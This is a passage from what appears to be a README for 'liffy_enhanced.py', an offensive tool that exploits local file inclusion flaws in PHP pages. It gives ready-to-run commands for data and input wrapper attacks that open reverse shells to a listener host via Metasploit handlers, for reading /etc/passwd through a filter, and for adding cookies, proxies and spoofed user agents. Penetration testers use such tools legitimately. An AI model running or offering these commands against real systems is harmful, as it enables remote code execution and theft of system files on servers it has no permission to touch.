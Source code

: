 This will:
- ✅ Test multiple LFI techniques automatically
- ✅ Select the best working technique
- ✅ Generate appropriate payloads
- ✅ Set up Metasploit handlers

### 2. Specific Technique

If you know which technique works, use it directly:

```bash
# Data wrapper technique
python3 liffy_enhanced.py --url http://target/file.php?page= --data --lhost 192.168.1.100 --lport 4444

# PHP input technique
python3 liffy_enhanced.py --url http://target/file.php?page= --input --lhost 192.168.1.100 --lport 4444

# File reading with filter technique
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/passwd
```

### 3. Advanced Options

```bash
# With custom User-Agent and proxy
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  --proxy http://127.0.0.1:8080

# With session cookies and verbose output
python3 liffy_enhanced.py --url http://target/file.php?page= --data \
  --lhost 192.168.1.100 --lport 4444 \
  --cookies "PHPSESSID=abc123; security=high" \
  --verbose --output liffy.log
```

## 🔧 Configuration

### Using Configuration Files

Create a configuration file for persistent settings:

```bash
# Create default configuration
python3 liffy_enhanced.py --config-create

# Use configuration file
python3 liffy_enhanced.py --config liffy_config.json
```

### Environment Variables
